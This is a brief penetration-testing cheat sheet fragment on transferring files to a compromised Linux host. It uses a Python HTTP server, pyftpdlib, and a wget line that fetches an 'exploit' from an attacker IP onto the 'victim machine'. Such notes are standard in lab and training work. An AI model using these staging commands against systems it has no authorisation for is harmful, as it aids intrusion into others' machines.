 ## Linux

  ## Web
  
  **python -m SimpleHTTPServer**

    wget <IP>:8000/exploit     # Download to victim machine

  ## FTP
  
  **python -m pyftpdlib 21 --write    #Host ftp server**
     
    ftp <IP>
      

